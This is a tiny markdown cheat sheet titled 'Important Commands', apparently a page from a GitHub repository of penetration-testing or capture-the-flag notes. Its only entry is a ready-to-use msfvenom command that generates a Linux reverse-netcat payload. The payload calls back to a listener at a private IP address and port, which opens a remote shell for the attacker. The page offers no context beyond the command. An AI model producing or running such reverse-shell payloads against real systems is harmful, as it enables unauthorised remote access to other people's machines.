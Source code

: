 # Important Commands

| Command | Description |
| :--- | :--- |
| Inline Paylod Linux | msfvenom -p cmd/unix/reverse\_netcat lhost=10.11.28.212 lport=8888 R |

